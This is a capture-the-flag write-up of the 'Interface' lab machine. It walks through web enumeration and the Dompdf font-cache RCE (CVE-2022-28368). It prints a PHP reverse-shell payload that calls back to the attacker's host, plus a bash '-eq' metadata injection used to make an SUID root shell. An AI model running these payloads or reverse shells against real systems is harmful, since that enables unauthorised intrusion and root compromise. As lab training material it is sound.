



# Interface


## TOC

- [Interface](#interface)
  - [TOC](#toc)
  - [Summary](#summary)
    - [Foothold](#foothold)
    - [Privilege Escalation](#privilege-escalation)
  - [Port Scan](#port-scan)
  - [80/tcp http](#80tcp-http)
    - [Next.js](#nextjs)
    - [prd.m.rendering-api.interface.htb](#prdmrendering-apiinterfacehtb)
      - [Directory Enumeration](#directory-enumeration)
      - [/api/html2pdf](#apihtml2pdf)
  - [Foothold](#foothold-1)
  - [Privilege Escalation](#privilege-escalation-1)
  - [User flag](#user-flag)
  - [Root flag](#root-flag)


## Summary

### Foothold

1. `http://prd.m.rendering-api.interface.htb/` URL was there in CSP `connect-src` directive in response header.
2. Found `http://prd.m.rendering-api.interface.htb/api/html2pdf` endpoint by Directory Enumeration.
3. Found valid parameter `{"html":"foo"}` and is used [Dompdf](https://github.com/dompdf/dompdf) 1.2.0 by pdf generator.
4. Exploit Dompdf RCE (CVE-2022-28368)

### Privilege Escalation

1. `/usr/local/sbin/cleancache.sh` script is executed by cron
2. `[[ "$meta_producer" -eq "dompdf" ]]` in this script is vulnerable to RCE.

## Port Scan

```console
root@kali:~/htb/Machines/Interface# nmap -p- --min-rate 5000 -sVC --open 10.129.228.208
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-29 13:40 JST
Nmap scan report for interface (10.129.228.208)
Host is up (0.19s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 72:89:a0:95:7e:ce:ae:a8:59:6b:2d:2d:bc:90:b5:5a (RSA)
|   256 01:84:8c:66:d3:4e:c4:b1:61:1f:2d:4d:38:9c:42:c3 (ECDSA)
|_  256 cc:62:90:55:60:a6:58:62:9e:6b:80:10:5c:79:9b:55 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Site Maintenance
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.63 seconds
```

22/tcp SSH and 80/tcp HTTP is opened.

## 80/tcp http

### Next.js

Checking basic technical informations by using [`WhatWeb`](https://github.com/urbanadventurer/WhatWeb).

```console
root@kali:~/htb/Machines/Interface# whatweb -a 3 http://10.129.228.208/
http://10.129.228.208/ [200 OK] Country[RESERVED][ZZ], Email[contact@interface.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.14.0 (Ubuntu)], IP[10.129.228.208], Script[application/json], UncommonHeaders[content-security-policy], X-Powered-By[Next.js], nginx[1.14.0]
```

Nginx 1.14.0 and Next.js. Also, E-mail address `contact@interface.htb` is found, it's maybe useful to subdomain enumeration.

Looking at response headers.

```console
root@kali:~/htb/Machines/Interface# curl -s -o /dev/null -D- http://10.129.228.208/
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 29 Jul 2023 04:44:21 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 6359
Connection: keep-alive
Content-Security-Policy: script-src 'unsafe-inline' 'unsafe-eval' 'self' data: https://www.google.com http://www.google-analytics.com/gtm/js https://*.gstatic.com/feedback/ https://ajax.googleapis.com; connect-src 'self' http://prd.m.rendering-api.interface.htb; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://www.google.com; img-src https: data:; child-src data:;
X-Powered-By: Next.js
ETag: "i8ubiadkff4wf"
Vary: Accept-Encoding
```

CSP (Content-Security-Policy) Header [`connect-src` directive](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/connect-src) includes `http://prd.m.rendering-api.interface.htb` URL so let's check it.

Appending it to `/etc/hosts`.

/etc/hosts

```hosts
10.129.228.208 prd.m.rendering-api.interface.htb
```

### prd.m.rendering-api.interface.htb

#### Directory Enumeration

GET `http://prd.m.rendering-api.interface.htb/` response is:

```console
root@kali:~/htb/Machines/Interface# curl -i http://prd.m.rendering-api.interface.htb/
HTTP/1.1 404 Not Found
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 29 Jul 2023 05:19:00 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive

File not found.
```

I don't know what services are running based on the response so enumerate using `ffuf`.

```console
root@kali:~/htb/Machines/Interface# ffuf -ic -u http://prd.m.rendering-api.interface.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://prd.m.rendering-api.interface.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 403, Size: 15, Words: 2, Lines: 2, Duration: 203ms]
    * FUZZ: vendor

:: Progress: [4715/4715] :: Job [1/1] :: 139 req/sec :: Duration: [0:00:28] :: Errors: 0 ::
```

[Bundler: bundle install](https://bundler.io/v2.4/man/bundle-install.1.html#DEPLOYMENT-MODE)

> 3. Gems are installed to vendor/bundle not your default system location

[Basic usage - Composer](https://getcomposer.org/doc/01-basic-usage.md#installing-dependencies)

> It then implicitly runs the install command. This will download the dependencies' files into the vendor directory in your project. (The vendor directory is the conventional location for all third-party code in a project).

`vendor` directory is found.
A directory named `vendor` is used in Ruby and PHP to store libraries.

Further enumeration `vendor/FUZZ`.

```console
root@kali:~/htb/Machines/Interface# ffuf -ic -u http://prd.m.rendering-api.interface.htb/vendor/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://prd.m.rendering-api.interface.htb/vendor/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 403, Size: 15, Words: 2, Lines: 2, Duration: 205ms]
    * FUZZ: composer

:: Progress: [4715/4715] :: Job [1/1] :: 139 req/sec :: Duration: [0:00:27] :: Errors: 0 ::
```

`composer` directory is found so PHP is used instead of Ruby.

Further enumerated `vendor/composer/FUZZ` with the following wordlists, but I couldn't find out what libraries is used.

- `/usr/share/seclists/Discovery/Web-Content/common.txt`
- `/usr/share/seclists/Discovery/Web-Content/big.txt`
- `/usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt`

So I go back to the `/` path and enumerate again.

I tried various request and found differences 404 response status:

```console
root@kali:~/htb/Machines/Interface# curl -i http://prd.m.rendering-api.interface.htb/
HTTP/1.1 404 Not Found
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 29 Jul 2023 05:59:22 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive

File not found.

root@kali:~/htb/Machines/Interface# curl -i http://prd.m.rendering-api.interface.htb/a
HTTP/1.1 404 Not Found
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 29 Jul 2023 05:59:25 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
```

`/` path returns `File not found.` body, but `/a` path returns no body.
I guess:

- In `/` path, `index.php` file is executed and PHP returns `File not found.` content.
- In the other path, no files executed so Nginx returns `404 Not Found` with no content.

Based on this guess, enumerating with filtering contents size.
In this, I append `-mc all` options (match all response status code) and `-fs 0` options (ignores 0 content size) because I expected PHP returns something.

```console
root@kali:~/htb/Machines/Interface# ffuf -ic -u http://prd.m.rendering-api.interface.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc all -fs 0

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://prd.m.rendering-api.interface.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 0
________________________________________________

[Status: 404, Size: 50, Words: 3, Lines: 1, Duration: 203ms]
    * FUZZ: api

[Status: 404, Size: 50, Words: 3, Lines: 1, Duration: 202ms]
    * FUZZ: api/experiments

[Status: 404, Size: 50, Words: 3, Lines: 1, Duration: 408ms]
    * FUZZ: api/experiments/configurations

[Status: 403, Size: 15, Words: 2, Lines: 2, Duration: 212ms]
    * FUZZ: vendor

:: Progress: [4715/4715] :: Job [1/1] :: 162 req/sec :: Duration: [0:00:28] :: Errors: 0 ::
```

`/api` path is found.
Looking at the `/api` response.

```console
root@kali:~/htb/Machines/Interface# curl -i http://prd.m.rendering-api.interface.htb/api/
HTTP/1.1 404 Not Found
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 29 Jul 2023 06:17:33 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive

{"status":"404","status_text":"route not defined"}

root@kali:~/htb/Machines/Interface# curl -i http://prd.m.rendering-api.interface.htb/api/a
HTTP/1.1 404 Not Found
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 29 Jul 2023 06:17:35 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive

{"status":"404","status_text":"route not defined"}
```

It returned with a 404 response status and this JSON content (size 50) under the `/api` path, so this response is as baseline, append the `-fs 50` options and enumerate again.

```console
root@kali:~/htb/Machines/Interface# ffuf -ic -u http://prd.m.rendering-api.interface.htb/api/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc all -fs 50

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://prd.m.rendering-api.interface.htb/api/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 50
________________________________________________

:: Progress: [4715/4715] :: Job [1/1] :: 139 req/sec :: Duration: [0:00:28] :: Errors: 0 ::
```

But not found.

The response content is JSON, so guess sending JSON and enumerate in POST method.
Also, it was not found with `common.txt` wordlist so use `big.txt` wordlist.

```console
root@kali:~/htb/Machines/Interface# ffuf -ic -X POST -u http://prd.m.rendering-api.interface.htb/api/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt -mc all -fs 50

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://prd.m.rendering-api.interface.htb/api/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 50
________________________________________________

[Status: 422, Size: 36, Words: 2, Lines: 1, Duration: 408ms]
    * FUZZ: html2pdf

:: Progress: [20476/20476] :: Job [1/1] :: 139 req/sec :: Duration: [0:02:01] :: Errors: 0 ::
```

`/api/html2pdf` path is found.

#### /api/html2pdf

Looking at the response:

```console
root@kali:~/htb/Machines/Interface# curl -X POST -i http://prd.m.rendering-api.interface.htb/api/html2pdf
HTTP/1.1 422 Unprocessable Entity
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 29 Jul 2023 06:42:53 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive

{"status_text":"missing parameters"}
```

It seems to miss parameters.
The response is JSON so enumerate JSON key.

```console
root@kali:~/htb/Machines/Interface# ffuf -ic -X POST -u http://prd.m.rendering-api.interface.htb/api/html2pdf -d '{"FUZZ":"dummy"}' -w /usr/share/seclists/Discovery/Web-Content/common.txt -fc 422

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://prd.m.rendering-api.interface.htb/api/html2pdf
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Data             : {"FUZZ":"dummy"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 422
________________________________________________

[Status: 200, Size: 1132, Words: 116, Lines: 77, Duration: 408ms]
    * FUZZ: html

:: Progress: [4715/4715] :: Job [1/1] :: 162 req/sec :: Duration: [0:00:29] :: Errors: 0 ::
```

`html` key found so Looking at the response.

```console
root@kali:~/htb/Machines/Interface# curl -i http://prd.m.rendering-api.interface.htb/api/html2pdf -d '{"html":"a"}'
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 29 Jul 2023 06:50:13 GMT
Content-Type: application/pdf
Content-Length: 1128
Connection: keep-alive
X-Local-Cache: miss
Cache-Control: public
Content-Transfer-Encoding: Binary
Content-Disposition: attachment; filename=export.pdf

Warning: Binary output can mess up your terminal. Use "--output -" to tell
Warning: curl to output it to your terminal anyway, or consider "--output
Warning: <FILE>" to save to a file.
```

It returns binary file so check it.

```console
root@kali:~/htb/Machines/Interface# curl -s http://prd.m.rendering-api.interface.htb/api/html2pdf -d '{"html":"a"}' -o tmp.dat

root@kali:~/htb/Machines/Interface# file tmp.dat
tmp.dat: PDF document, version 1.7, 0 pages

root@kali:~/htb/Machines/Interface# exiftool tmp.dat
ExifTool Version Number         : 12.63
File Name                       : tmp.dat
Directory                       : .
File Size                       : 1128 bytes
File Modification Date/Time     : 2023:07:29 15:51:27+09:00
File Access Date/Time           : 2023:07:29 15:51:29+09:00
File Inode Change Date/Time     : 2023:07:29 15:51:27+09:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.7
Linearized                      : No
Page Count                      : 1
Producer                        : dompdf 1.2.0 + CPDF
Create Date                     : 2023:07:29 06:50:13+00:00
Modify Date                     : 2023:07:29 06:50:13+00:00
```



Producer is `dompdf 1.2.0`.

- Source Code: [dompdf/dompdf: HTML to PDF converter for PHP](https://github.com/dompdf/dompdf)
- Document: [dompdf by dompdf](https://dompdf.github.io/)

Searched `dompdf 1.2.0` vulnerabilities, I found RCE.

- [Exploiting RCE Vulnerability in Dompdf \| Optiv](https://www.optiv.com/insights/source-zero/blog/exploiting-rce-vulnerability-dompdf)
- [From XSS to RCE (dompdf 0day) \| Positive Security](https://positive.security/blog/dompdf-rce)
- [Dompdf RCE \| Exploit Notes](https://exploit-notes.hdks.org/exploit/web/dompdf-rce/)

Also, this RCE is assigned CVE-2022-28368.

- [NVD - CVE-2022-28368](https://nvd.nist.gov/vuln/detail/CVE-2022-28368)
- [CVE - CVE-2022-28368](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-28368)

## Foothold

Execute exploit according to [Dompdf RCE \| Exploit Notes](https://exploit-notes.hdks.org/exploit/web/dompdf-rce/).

1. Create Malicious Font

    ```console
    root@kali:~/htb/Machines/Interface# find / -name "*.ttf" 2>/dev/null
    (snip)
    /usr/share/fonts/truetype/dejavu/DejaVuSerif.ttf
    (snip)

    root@kali:~/htb/Machines/Interface# cp /usr/share/fonts/truetype/dejavu/DejaVuSerif.ttf ./evil.php

    root@kali:~/htb/Machines/Interface# echo "<?php system(\"bash -c 'bash -i >& /dev/tcp/10.10.16.11/8888 0>&1'\"); ?>" >> evil.php

    root@kali:~/htb/Machines/Interface# tail -1 evil.php
    Sd+(snip)+<?php system("bash -c 'bash -i >& /dev/tcp/10.10.16.11/8888 0>&1'"); ?>
    ```

2. Create Malicious CSS

    ```console
    root@kali:~/htb/Machines/Interface# vi evil.css

    root@kali:~/htb/Machines/Interface# cat evil.css
    @font-face {
      font-family: 'evil';
      src: url('http://10.10.16.11:8000/evil.php');
      font-weight: 'normal';
      font-style: 'normal';
    }
    ```

3. Host PHP & CSS

    ```console
    root@kali:~/htb/Machines/Interface# python3 -m http.server 8000
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    ```

4. Send Request

    ```console
    root@kali:~/htb/Machines/Interface# curl -s http://prd.m.rendering-api.interface.htb/api/html2pdf -d "{\"html\":\"<link rel=stylesheet href='http://10.10.16.11:8000/evil.css'>\"}"
    ```

    receive request:

    ```console
    root@kali:~/htb/Machines/Interface# python3 -m http.server 8000
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    10.129.228.208 - - [29/Jul/2023 16:10:12] "GET /evil.css HTTP/1.0" 200 -
    10.129.228.208 - - [29/Jul/2023 16:10:14] "GET /evil.php HTTP/1.0" 200 -
    ```

    check md5sum `md5(evil.php URL)`:

    ```console
    root@kali:~/htb/Machines/Interface# echo -n http://10.10.16.11:8000/evil.php | md5sum
    de89cf488fc6d524f124c4c2df823344  -
    ```

5. Execute Malicious PHP via Cached File

    listening reverse shell:

    ```console
    root@kali:~/htb/Machines/Interface# nc -lnvp 8888
    listening on [any] 8888 ...
    ```

    In this article,

    > Our “evil.php” is uploaded to /dompdf/lib/fonts/<font_name>_<font_weight/style>_<md5>.php.
    > For example, /dompdf/lib/fonts/evil_normal_2cddaeb743b6aeb5638ac0ac93c4c9f6.php.

    In this Machine case, Cached file is `vendor/dompdf/dompdf/lib/fonts/<font_name>_<font_weight/style>_<md5>.php` so URL Path is `/vendor/dompdf/dompdf/lib/fonts/evil_normal_de89cf488fc6d524f124c4c2df823344.php`.

    ```console
    root@kali:~/htb/Machines/Interface# curl -s http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/evil_normal_de89cf488fc6d524f124c4c2df823344.php
    ```

    listening shell:

    ```console
    root@kali:~/htb/Machines/Interface# nc -lnvp 8888
    listening on [any] 8888 ...
    connect to [10.10.16.11] from (UNKNOWN) [10.129.228.208] 34698
    bash: cannot set terminal process group (1312): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$
    ```

got shell.

To avoid inadvertently disconnecting nc, I got full TTY according the article [Full TTYs - HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys).



## Privilege Escalation

Download pspy from https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64 URL to kali machine, then upload it target machie.

In kali:

```console
root@kali:~/htb/Machines/Interface# curl -sL -o pspy https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64

root@kali:~/htb/Machines/Interface# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.228.208 - - [29/Jul/2023 16:37:38] "GET /pspy HTTP/1.1" 200 -
```

In Target:

```console
www-data@interface:/tmp$ curl -s -o pspy 10.10.16.11/pspy
www-data@interface:/tmp$
```

Executing `pspy`:

```console
www-data@interface:/tmp$ chmod +x pspy
www-data@interface:/tmp$ ./pspy
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2023/07/29 07:40:29 CMD: UID=33    PID=20283  | ./pspy
(snip)
2023/07/29 07:42:01 CMD: UID=0     PID=20296  | /bin/bash /usr/local/sbin/cleancache.sh
2023/07/29 07:42:01 CMD: UID=0     PID=20295  | /bin/sh -c /usr/local/sbin/cleancache.sh
2023/07/29 07:42:01 CMD: UID=0     PID=20294  | /usr/sbin/CRON -f
2023/07/29 07:42:01 CMD: UID=0     PID=20299  | cut -d   -f1
2023/07/29 07:42:01 CMD: UID=0     PID=20298  | /bin/bash /usr/local/sbin/cleancache.sh
2023/07/29 07:42:01 CMD: UID=0     PID=20297  | /bin/bash /usr/local/sbin/cleancache.sh
2023/07/29 07:42:02 CMD: UID=0     PID=20300  | rm /tmp/pspy
```

`/usr/local/sbin/cleancache.sh` file is executed with UID=0 (root) by cron so look at this.

```console
www-data@interface:/tmp$ file /usr/local/sbin/cleancache.sh
/usr/local/sbin/cleancache.sh: Bourne-Again shell script, ASCII text executable
```

/usr/local/sbin/cleancache.sh

```bash
#! /bin/bash
cache_directory="/tmp"
for cfile in "$cache_directory"/*; do

    if [[ -f "$cfile" ]]; then

        meta_producer=$(/usr/bin/exiftool -s -s -s -Producer "$cfile" 2>/dev/null | cut -d " " -f1)

        if [[ "$meta_producer" -eq "dompdf" ]]; then
            echo "Removing $cfile"
            rm "$cfile"
        fi

    fi

done
```

Google searching:



Found [Bash eq Privilege Escalation \| Exploit Notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/bash-eq-privilege-escalation/) article.
This article talking about shell script containing `[[ $var -eq 42 ]]`, this can be exploitable.
Payload is `a[$(command)]`.

Testing it.

```console
www-data@interface:/tmp$ touch foo; exiftool -Producer='a[$(touch /tmp/hacked)]' foo

www-data@interface:/tmp$ /usr/local/sbin/cleancache.sh
/usr/local/sbin/cleancache.sh: line 9: [[: a[$(touch: bad array subscript (error token is "a[$(touch")
```

I guess that the error occurs because the spaces is there in commands. e.g. `touch /tmp/hacked`.
So using Bash Brace Expansion (e.g. `echo {a,b,c}`) to bypass it.

ref: [Bypass Linux Shell Restrictions - HackTricks](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions)

Testing it.

```console
www-data@interface:/tmp$ touch foo; exiftool -Producer='a[$({touch,/tmp/hacked})]' foo
    1 image files updated

www-data@interface:/tmp$ /usr/local/sbin/cleancache.sh
Removing /tmp/foo
Removing /tmp/foo_original

www-data@interface:/tmp$ ls -la
total 44
drwxrwxrwt 11 root     root     4096 Jul 29 08:09 .
drwxr-xr-x 24 root     root     4096 Jan 16  2023 ..
(snip)
-rw-r--r--  1 www-data www-data    0 Jul 29 08:09 hacked
(snip)
```

Got it.
Letting the command run that copy `/bin/bash` and set the SUID to it.

```console
www-data@interface:/tmp$ touch foo; exiftool -Producer='a[$({cp,/bin/bash,/tmp/rootbash};{chmod,+s,/tmp/rootbash})]' foo
    1 image files updated

www-data@interface:/tmp$ # wait a minute...

www-data@interface:/tmp$ ls -la rootbash
-rwsr-sr-x 1 root root 1113504 Jul 29 08:18 rootbash

www-data@interface:/tmp$ /tmp/rootbash -p

rootbash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

Got root shell.

## User flag

```console
www-data@interface:~$ ls -la /home/dev/
ls -la /home/dev/
total 32
drwxr-xr-x 4 dev  dev  4096 Jan 16  2023 .
drwxr-xr-x 3 root root 4096 Jan 16  2023 ..
lrwxrwxrwx 1 root root    9 Jan 10  2023 .bash_history -> /dev/null
-rw-r--r-- 1 dev  dev   220 Jan 10  2023 .bash_logout
-rw-r--r-- 1 dev  dev  3771 Jan 10  2023 .bashrc
drwx------ 2 dev  dev  4096 Jan 16  2023 .cache
drwx------ 3 dev  dev  4096 Jan 16  2023 .gnupg
-rw-r--r-- 1 dev  dev   807 Jan 10  2023 .profile
-rw-r--r-- 1 root dev    33 Jul 29 03:15 user.txt

www-data@interface:~$ cat /home/dev/user.txt
cat /home/dev/user.txt
[REDACTED]
```


## Root flag

```console
rootbash-4.4# cat /root/root.txt
[REDACTED]
```
